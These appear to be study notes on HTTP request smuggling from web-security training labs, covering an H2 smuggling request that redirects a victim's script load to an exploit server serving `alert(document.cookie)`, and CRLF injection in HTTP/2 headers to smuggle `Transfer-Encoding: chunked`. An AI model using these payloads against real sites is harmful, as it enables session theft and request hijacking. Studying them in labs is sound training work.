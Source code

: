 After sending both requests, it turns into an offsite redirect:

![[Offsite Redirect.png]]

To exploit it, replace the Headers in the exploit server to content type of text/javascript with a body of `alert(document.cookie);` and modify the path to /resources/js/. Additionally modify the Host header to the exploit server:

```http
POST / HTTP/2
Host: 0a0300bf034f940d813b582c006b0083.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
GET /resources/js HTTP/1.1
Host: exploit-0af0003a034994b28135573b01740077.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```

![[Exploit Server.png]]

To finish the attack, keep re-submitting the requests until a 200 OK is returned as that means the victim request was appended to the attack request - can be automated via null payloads indefinitely in Intruder. The victim must also request a JavaScript file for it to execute.
# Request Smuggling via CRLF Injection

If sites prevent basic H2.CL or H2.TE attacks by validating content-length or stripping TE headers, the binary format enables some ways to bypass them. In HTTP/1 you can exploit discrepancies between how servers handle standalone newline (`\n`) characters to smuggle prohibited headers.

If the back-end treats it as a delimiter, but the front-end does not, some front-end servers will fail to detect the second header:

```http
Foo: bar\nTransfer-Encoding: chunked
```

This does not exist with the handling of a full CRLF (\\r\\n) sequence since all HTTP/1.1 servers agree that it terminates the header.

Since HTTP/2 messages are binary, the boundaries of each header are based on explicit, pre-determined offsets rather than delimiter characters meaning that `\r\n` no longer has special significance within a header value and can be included inside the value without causing the header to split.

When rewritten as HTTP/1 request, the `\r\n` will once again be interpreted as a header delimiter. As a result, an HTTP/1 back-end server would see two distinct headers:

```http
Foo: bar
Transfer-Encoding: chunked
```
# Exploiting Request Smuggling via CRLF Injection
